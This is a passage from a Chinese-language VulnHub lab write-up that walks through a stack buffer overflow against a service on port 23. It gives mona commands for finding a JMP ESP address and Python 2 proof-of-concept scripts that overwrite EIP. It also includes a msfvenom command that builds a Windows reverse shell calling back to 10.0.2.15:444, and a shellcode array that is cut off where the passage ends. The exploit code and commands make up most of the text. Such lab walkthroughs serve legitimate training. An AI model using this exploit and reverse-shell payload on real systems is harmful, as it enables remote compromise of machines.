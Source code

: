 找到的位置太低，弃了，在

```
!mona find -s "\xff\xe4" -m "funcs_access.dll"
```

![19](https://static.iihack.com/vulnhub/613/19.png)

找到 `625012D0` ，倒序后 `\xD0\x12\x50\x62`

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
buff = "A"*1902
eip = '\xD0\x12\x50\x62'
nullByte = "\x00"
buffer = "C" * (2500-len(buff) - len(eip))
inputBuffer = buff + eip + buffer + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![20](https://static.iihack.com/vulnhub/613/20.png)



### poc7.py

##### windows环境

生成shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=444 -f c -b "\x00\x4d\x4f\x5f\x79\x7e\x7f" EXITFUNC=thread
```

python脚本

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 23
buff = "A"*1902
eip = '\xD0\x12\x50\x62'
nullByte = "\x00"
nops = "\x90" * 30 
shellcode = ("\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xd7\xd0\x36\x10\x83\xee\xfc\xe2\xf4\x2b\x38\xb4\x10\xd7\xd0"
"\x56\x99\x32\xe1\xf6\x74\x5c\x80\x06\x9b\x85\xdc\xbd\x42\xc3"
"\x5b\x44\x38\xd8\x67\x7c\x36\xe6\x2f\x9a\x2c\xb6\xac\x34\x3c"
"\xf7\x11\xf9\x1d\xd6\x17\xd4\xe2\x85\x87\xbd\x42\xc7\x5b\x7c"
"\x2c\x5c\x9c\x27\x68\x34\x98\x37\xc1\x86\x5b\x6f\x30\xd6\x03"
"\xbd\x59\xcf\x33\x0c\x59\x5c\xe4\xbd\x11\x01\xe1\xc9\xbc\x16"
"\x1f\x3b\x11\x10\xe8\xd6\x65\x21\xd3\x4b\xe8\xec\xad\x12\x65"
"\x33\x88\xbd\x48\xf3\xd1\xe5\x76\x5c\xdc\x7d\x9b\x8f\xcc\x37"
"\xc3\x5c\xd4\xbd\x11\x07\x59\x72\x34\xf3\x8b\x6d\x71\x8e\x8a"
"\x67\xef\x37\x8f\x69\x4a\x5c\xc2\xdd\x9d\x8a\xb8\x05\x22\xd7"
"\xd0\x5e\x67\xa4\xe2\x69\x44\xbf\x9c\x41\x36\xd0\x2f\xe3\xa8"
"\x47\xd1\x36\x10\xfe\x14\x62\x40\xbf\xf9\xb6\x7b\xd7\x2f\xe3"
"\x40\x87\x80\x66\x50\x87\x90\x66\x78\x3d\xdf\xe9\xf0\x28\x05"
```